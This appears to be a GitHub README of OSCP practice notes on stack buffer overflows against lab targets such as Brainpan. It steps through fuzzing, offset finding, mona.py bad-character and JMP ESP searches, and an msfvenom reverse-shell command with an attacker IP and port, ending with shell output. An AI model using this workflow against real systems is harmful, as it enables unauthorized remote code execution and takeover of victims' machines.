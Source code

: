 # OSCP-BUFFER-OVERFLOW-PREP
This Repositry has my own practice notes of Buffer overflow Vulnrable Machine in easy,Beginer way.

If You have fear of buffer overflow, then i'll say bro just chill it is easy. Make some practice.
you have to follow som steps to get the shell of victim host.
Brainpain,VulnServer,Ftp.....and more comming soon
Be Connected Thank you!!


The very firs step is to getting the crash byte after knowing the host and port,vuln param 
of the server.....

Part 1

    Fuzzing the service parameter and getting the crash byte
    Generating the pattern
    Finding the correct offset where the byte crashes with the help of (EIP)

Part 2

    Finding the bad character with mona.py, and comparing bad character strings with mona.py
    Finding return address (JMP ESP) with mona.py

Part 3

    Setting breakpoint to verify RETURN address is correct or not
    Creating reverse shell with the help of msfvenom
    Adding NOP’s to the script
    Getting shell





1) So for the Any binary we have to fuzz from 100 to Untill crash the program,
   To do so first we have to find out which input parameter of the is vulnrable to overflow.
   Then find out the crash byte of the program by fuzzing the parameter.
 
   

2) creating offset value. with msf 
   > msf-pattern_create -l 3000
   where 3000 is Crash byte of the program
 
   After getting the crash byte we have to control the intruction pointer
   to do this we'll use the msf venome 

3) msf-pattern_offset -l 3000 -q 35724134 (this is value of eip)

    output- [*] Exact match at offset 524 


4) after getting the offset value wee need to perform the overflow with some 
   more thing 
   now we have offset=524
   eip="B" * 4 (this will always contain the eip )
   shellcode= "C"* 400 (this is the space where the stack in buffer fill with  shell code )

5) Creating the working dir in im-debug
   !mona config -set workingfolder c:\logs\%p

 Now next is to finding the bad char with the help of all possible hex

6) to do this we have to create an array with mona.py to compair with out paylod

   !mona bytearray -b '\x00'

   send the payload 

7) now we have to verify if ther's any badchar....
    !mona compare -f C:\logs\brainpan\bytearray.bin -a 005FF910
   if the result is normal then ther's only one badchar  ecept: "/x00"

Now we have to find the jump esp location 

8) check if there is any module that is vulnrable and false by os
   !mona modules 
   ther's a module brainpain.exe

9) to get the jump statment have to perform this command

   !mona find -s "\xff\xe4" -m baianpan.exe
   this will retun the address of jump eip
   save the jump eip 311712f3 set this eip in payload as
   eip=eip= '\xf3\x12\x17\x31'


10) setting the break point to check does it working or not 
    bp 0x311712f3
    to verify the break point is set view>view breakpoint>

11) Now set the  eip to  and try run again the payload 
    this will pass the program and jump to our brekpoint now 
    when resume the program it will retrun to shellcode that we given as payld

12) Creating the reverse shell code with the help of the msfvenome
     msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.132 LPORT=1234 -b '\x00' -f c

where(-b is bad character and -f c is the revershell in c language

13) And add the nops valu (I'm using this because maybe control jump by leaving 8 or 16 bytes after the shell code)

nops='\x90' * 10

14) add the nops to our payload before the shellcode value and start the listening on our side....

15) after the sending the shell the im_debug will pause so we have to tap on play again .....boom we got the shell

C:\Users\Saimson\Downloads>

C:\Users\Saimson\Downloads>whoami
whoami
desktop-hup6j62\saimson 


